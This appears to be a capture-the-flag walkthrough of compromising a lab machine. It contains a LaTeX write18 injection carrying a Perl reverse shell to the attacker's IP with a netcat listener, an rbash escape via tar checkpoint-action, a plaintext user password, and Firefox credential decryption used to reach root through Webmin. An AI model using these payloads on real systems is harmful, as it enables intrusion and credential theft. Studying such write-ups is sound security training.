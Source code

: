 The exploit code attached here:

```bash
$ # On the Attacker
$ nc -lvp 8778
```

Submit this to the server:

```latex
\immediate\write18{perl -e 'use Socket;$i="<YOUR IP HERE>";$p=8778;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'}
```

Use `python3` to get a tty-spawned shell: `python -c 'import pty; pty.spawn("/bin/bash")'`

## Get normal user

```bash
$ whoami
www-data
```

Next, `su ayush` with password `jiujitsu` and you'll found you only have `/opt/rbash`, a restricted bash.

Check `echo $PATH` found that your `PATH=/home/ayush/.app`, try `ls`, got `command-not-found`, try `dir` get: this directory only has `tar`, `ping`, `dir`, three executable files.

Use `tar` to escalate: `tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash`

After you get escalated: `export PATH=$PATH:/usr/bin:/usr/local/bin:/bin:/sbin` to `cat /home/ayush/user.txt`.

## Get Rooted

According to nmap, there's a webapp called "Webmin" on port 10000 with SSL. It should not sound strange to Linux administrators.

So, there's a `.mozilla` in the home and seems like two databases which may store credentials about the webapp. Try to decrypt using script here: https://github.com/unode/firefox_decrypt

> How to upload the script to the box? Simply open a HTTP server and `wget` it on the box. 

The master password is the same one as `su` used one. Then, you get stored credentials in webmin. Webmin authentication is running via Unix Authentication by default.

Now you have root and webmin. Do anything you want.

(Finished.) 2019.5.14

